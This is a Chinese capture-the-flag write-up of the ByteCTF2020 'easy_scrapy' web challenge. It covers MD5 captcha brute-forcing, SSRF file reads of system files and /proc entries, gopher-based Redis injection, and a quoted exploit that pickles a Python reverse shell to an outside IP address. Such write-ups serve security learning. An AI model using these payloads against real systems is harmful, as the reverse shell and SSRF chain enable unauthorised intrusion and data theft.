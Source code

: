 ```yaml
---
title: ByteCTF2020复现
date: 2020-10-28
image: https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/20210228105539.jpeg
description: 
categories: 
- ctf_writeup
tags:
- SSRF
- Redis
- python反序列化
---
```

这次ByteCTF2020的web题目非常顶，第一天比赛快结束的时候全场web才有了第一个解，后来解人数最多的XSS也就不过十个解，可惜一直在看爬虫的题，最后还是没做出。

------

### easy_scrapy

考点：MD5爆破、SSRF

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120181318.png)

功能是添加一个http://或者https://开头的URL，并且要求输入验证码，可以利用以下脚本来爆破：

```
import hashlib
 
for i in range(99999999):
    if hashlib.md5(str(i).encode('UTF-8')).hexdigest()[:6] == '2c97b3':
        print(i)
        break
```

十几秒能出结果，之后可以BP重放数据包来快速的添加。

添加成功之后可以在MyUrlList里面看到添加记录，点进去可以看到爬取到的东西。

监听端口接收到请求：

```
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
User-Agent: scrapy_redis
Accept-Encoding: gzip, deflate
```

发现是scrapy_redis，初步猜测是SSRF打redis。

既然他是爬虫，那么遇到类似于<a>这种标签的话，他很有可能就会去请求，（后来放了HINT，叫去读这个页面的源码）尝试爬以下这道题的公网IP，发现他会把/list的源码一并爬下来，那么我们可以起一个页面来指向`file:///etc/passwd`

比赛的时候我用的是302重定向好像不行（哭了），其实这里他遇到一个<a>标签就会去请求：

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120181325.png)

我们可以发现他请求到了我们想要的URL：

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120181330.png)

把<a>标签的href改成file协议果然可以造成任意文件读：

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120181342.png)

这样的话我们可以逐一的读取他爬虫的源码，但是在这之前我们要先知道爬虫工作的绝对路径，可以通过读`/proc/self/environ`，得到绝对路径PWD=/code，这个知识点在本站[[SWPU2019\]Web3](http://wh1sper.com/buuoj刷题记录3/)也提到过。

在[官方文档](https://scrapy-chs.readthedocs.io/zh_CN/0.24/intro/tutorial.html)中找到了这个爬虫框架的结构：

```
tutorial/
    scrapy.cfg
    tutorial/
        __init__.py
        items.py
        pipelines.py
        settings.py
        spiders/
            __init__.py
            ...
```

我们尝试去读取这些文件；

scrapy.cfg:

```
# Automatically created by: scrapy startproject
#
# For more information about the [deploy] section see:
# https://scrapyd.readthedocs.io/en/latest/deploy.html
 
[settings]
default = bytectf.settings
 
[deploy]
#url = http://localhost:6800/
project = bytectf
```

对照着文档我们可以看到项目文件夹的名称是bytectf，不过在bytectf/spider文件夹下的爬虫名称却似乎是自定义的名字。

读取`/proc/self/cmdline`，这个文件包含进程的完整命令行信息，我们可以根据他来得知正在运行的爬虫的文件名称。

```
/usr/local/bin/python /usr/local/bin/scrapy crawl byte
```

得知爬虫名字叫做byte。

读取之，得到[源码](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/ByteCTF2020/bytectf_easy_scrapy.zip)，结构大概如下：

```
/code/
  requirement.txt
  scrapy.cfg
  bytectf/
    __init__.py 
    items.py 
    pipelines.py 
    settings.py 
    spiders/ 
      __init__.py 
      byte.py
```

由源码可知：

```
172.20.0.8:6379为内网Redis
172.20.0.7:27017为mongodb
```

打一通之后没有任何回显，甚至不能确定这两个主机是否存活。

根据hint，得到源码之后我们可以本地起一个环境来调试，同时，从[这篇文章](https://blog.csdn.net/zwq912318834/article/details/78854571)里面我们得知redis-scrapy的运作方式:

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120181356.png)



作为一个分布式爬虫，是需要有一个Master端（核心服务器）的，在Master端，会搭建一个Redis数据库，用来存储start_urls、request、items。Master的职责是负责url指纹判重，Request的分配，以及数据的存储（一般在Master端会安装一个mongodb用来存储redis中的items）。出了Master之外，还有一个角色就是slaver（爬虫程序执行端），它主要负责执行爬虫程序爬取数据，并将爬取过程中新的Request提交到Master的redis数据库中。



这和我们之前的猜想SSRF+Redis是越来越接近的。

但是用用爬虫去打Redis是打不到东西的，我们可以在源码里面看到scrapy.Request，他是不支持gopher和dict协议的。

哪里还有SSRF的点呢？

当然是在点击爬取链接的时候：

```
?url=https://baidu.com
```

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120181407.png)

监听到请求的UA是`PycURL`，这个东西和curl差不多，是支持gopher等协议的，我们就可以利用这里去打redis。

不过遗憾的是，这里的是ssrf仍然是没有回显，难以判断我们的payload是否起作用。

此题最难发现的点我感觉就是这个pickle反序列化，此时有两种发现pickle反序列化的方法：

1.本地起一个scrapy_redis环境，去看redis里面的东西，发现序列化数据（操作有难度，也许会遇到很多问题）

2.爬虫第4行使用了scrapy_redis库，去看这个的源码，可以发现它在存取数据的过程中使用了pickle的序列化方式，并且还可以发现，它会将request对象存入`爬虫名:requests`这样的有序列表中。

既然有序列化那必然存在反序列化，利用反序列化来反弹shell。

`byte:requests`有序列表是zset的，我们gopher打的时候需要zset。

贴一个官方exp：

```
import pickle
import os
from urllib.parse import quote
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("119.45.184.10",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return (os.system, (s,))
test = str(pickle.dumps(exp()))
poc = test.replace("\n",'\\n').replace("\"","\\\"")[2:-1]
poc ='gopher://172.20.0.7:6379/_'+quote('ZADD byte:requests 0 "')+quote(poc)+quote('"')
print(poc)
```

时间显得有点急，这道题就草草的复现了一遍，以后时间再本地深究